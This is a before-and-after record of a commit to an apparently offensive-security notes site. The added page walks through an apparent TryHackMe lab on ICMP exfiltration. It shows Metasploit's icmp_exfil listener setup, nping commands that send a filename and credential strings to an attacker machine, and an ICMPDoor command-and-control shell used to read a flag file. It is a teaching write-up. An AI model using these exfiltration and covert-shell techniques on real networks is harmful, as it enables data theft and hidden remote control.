

Before and after one commit to tymyrddin/red-hurdles, a Sphinx documentation site: the page built from source/docs/exfiltration/icmp.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

```diff
--- a/source/docs/exfiltration/icmp.md
+++ b/source/docs/exfiltration/icmp.md
@@ -1 +1,85 @@
 # Exfiltration using ICMP
+
+## ICMP Data Exfiltration
+
+Use Metasploit `auxiliary/server/icmp_exfil`:
+
+    # msfconsole
+    msf6 > use auxiliary/server/icmp_exfil
+    msf6 auxiliary(server/icmp_exfil) > options
+
+    Module options (auxiliary/server/icmp_exfil):
+
+       Name             Current Setting  Required  Description
+       ----             ---------------  --------  -----------
+       BPF_FILTER       icmp             yes       BFP format filter to listen for
+       END_TRIGGER      ^EOF             yes       Trigger for end of file
+       FNAME_IN_PACKET  true             yes       Filename presented in first pac
+                                                   ket straight after START_TRIGGE
+                                                   R
+       INTERFACE                         no        The name of the interface
+       RESP_CONT        OK               yes       Data ro resond when continuatio
+                                                   n of data expected
+       RESP_END         COMPLETE         yes       Data to response when EOF recei
+                                                   ved and data saved
+       RESP_START       SEND             yes       Data to respond when initial tr
+                                                   igger matches
+       START_TRIGGER    ^BOF             yes       Trigger for beginning of file
+
+Set options:
+
+    msf6 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src <IP attack machine>
+    BPF_FILTER => icmp and not src <IP attack machine>
+    msf6 auxiliary(server/icmp_exfil) > set INTERFACE tun0
+
+In another terminal, go into the icmp box and start the transmission:
+
+    thm@jump-box$ ssh thm@icmp.thm.com
+    thm@icmp-host:~# sudo nping --icmp -c 1 <IP attack machine> --data-string "BOFfile.txt"
+
+Send the data:
+
+    thm@icmp-host:~# sudo nping --icmp -c 1 <IP attack machine> --data-string "admin:password"
+
+    thm@icmp-host:~# sudo nping --icmp -c 1 <IP attack machine> --data-string "admin2:password2"
+
+End the transmission:
+
+    thm@icmp-host:~# sudo nping --icmp -c 1 <IP attack machine> --data-string "EOF"
+
+Results:
+
+    msf6 auxiliary(server/icmp_exfil) > run
+
+    [*] ICMP Listener started on eth0 (ATTACKBOX_IP). Monitoring for trigger packet containing ^BOF
+    [*] Filename expected in initial packet, directly following trigger (e.g. ^BOFfilename.ext)
+    [+] Beginning capture of "file.txt" data
+    [*] 30 bytes of data received in total
+    [+] End of File received. Saving "file.txt" to loot
+    [+] Incoming file "file.txt" saved to loot
+    [+] Loot filename: /path/to/loot/filename.txt
+
+## ICMP C2 Communication
+
+Using the [ICMPDoor](https://github.com/krabelize/icmpdoor) tool.
+
+On icmp host:
+
+    thm@icmp-host:~$ sudo icmpdoor -i eth0 -d 192.168.0.133
+
+On jump host:
+
+    thm@jump-box:~$ sudo icmp-cnc -i eth1 -d 192.168.0.121
+    [sudo] password for thm:
+    shell: hostname
+    hostname
+    shell: icmp-host
+
+Get the flag:
+
+    shell: getFlag
+    getFlag
+    shell: [+] Check the flag: /tmp/flag.txt
+
+    shell: cat /tmp/flag.txt
+    cat /tmp/flag.txt
```
Also changed, not shown: source/docs/exfiltration/dns-conf.md (+13 -0 lines).
